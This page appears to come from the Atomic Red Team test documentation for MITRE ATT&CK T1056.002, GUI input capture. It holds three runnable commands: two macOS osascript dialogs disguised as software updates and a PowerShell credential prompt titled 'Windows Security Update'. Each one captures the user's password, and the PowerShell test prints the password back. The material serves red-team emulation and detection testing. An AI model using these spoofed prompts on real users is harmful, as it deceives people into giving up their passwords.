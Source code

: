 ```yaml
---
tags: [T1056_002, atomic_test]
filename: "[[T1056.002|T1056.002 - Input Capture: GUI Input Capture]]"
---
```

# T1056.002 - Input Capture: GUI Input Capture

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


**auto_generated_guid:** 76628574-0bc1-4646-8fe2-8f4427b47d15






#### Attack Commands: Run with `bash`! 


```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


**auto_generated_guid:** 2b162bfd-0928-4d4c-9ec3-4d9f88374b52






#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
<br/>

## Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript
Prompt user for password without requiring permissions to send Apple events to System Settings.
https://embracethered.com/blog/posts/2021/spoofing-credential-dialogs/

**Supported Platforms:** macOS


**auto_generated_guid:** b7037b89-947a-427a-ba29-e7e9f09bc045






#### Attack Commands: Run with `bash`! 


```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a security update MacOS needs your passphrase." with title "MacOS Security Update" default answer "" with icon stop with hidden answer')
echo $PWD_SPOOF
```






<br/>
